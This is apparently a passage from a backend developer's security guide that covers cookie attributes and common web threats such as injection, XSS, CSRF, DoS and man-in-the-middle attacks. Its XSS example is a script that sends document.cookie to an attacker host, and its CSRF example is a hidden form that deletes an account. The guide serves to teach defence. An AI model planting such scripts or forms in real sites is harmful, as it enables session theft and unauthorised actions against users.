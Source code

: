 ### Key security considerations

- Avoid storing sensitive information like passwords or personal data in cookies, as they can be accessed and modified by the user.
- Set the "secure" attribute on cookies to ensure they are transmitted only over HTTPS connections, preventing eavesdropping on unsecured networks.
- Set an appropriate expiration time for session cookies to ensure they are automatically deleted after a reasonable period.
- Use the "HttpOnly" attribute to prevent client-side scripts from accessing cookies, mitigating the risk of XSS attacks.

## Types of Security Threats

- Security threats are potential vulnerabilities or weaknesses in a system that can be exploited to compromise the confidentiality, integrity, and availability of data and services. As backend engineers, it is crucial to identify and mitigate these threats to protect sensitive data and maintain the trust of users.

1. **Injection Attacks:** Injection attacks occur when malicious code is injected into user inputs or data sent to the backend, leading to unintended execution of commands. A common example is SQL injection, where an attacker injects SQL code into a web application's input fields to gain unauthorized access to the database.
2. **Cross-Site Scripting (XSS):** XSS attacks involve injecting malicious scripts into web pages viewed by other users. These scripts can steal sensitive information, such as cookies, session tokens, or personal data, leading to unauthorized access.

   ```xml
   <!-- Malicious script injected into a comment section -->
   <script>
     fetch('http://attacker.com/steal?data=' + document.cookie);
   </script>
   ```
3. **Cross-Site Request Forgery (CSRF):** In CSRF attacks, attackers trick authenticated users into performing unintended actions on a website. They forge requests that appear legitimate to the backend and execute actions on behalf of the authenticated user.

   ```html
   // Fake form submitted to perform an action without user's consent
   <form action="https://example.com/deleteAccount" method="POST">
     <input type="hidden" name="userId" value="123">
     <button type="submit">Click Me!</button>
   </form>
   ```
4. **Security Misconfigurations** occur when systems are not appropriately configured, leaving them vulnerable to exploitation. This could include default passwords, open ports, or unnecessary access permissions.

5. **Denial of Service (DoS) Attacks:** DoS attacks aim to overwhelm a system or network, causing it to become unresponsive or crash, resulting in service disruption. 
   - Example - Sending a large number of simultaneous requests to a server, exhausting its resources and causing it to become unresponsive.

6. **Man-in-the-Middle (MITM) Attacks:** MITM attacks occur when an attacker intercepts and potentially alters communication between two parties without their knowledge. For e.g. by intercepting sensitive data exchanged between a user's browser and a web server, such as login credentials or financial information.
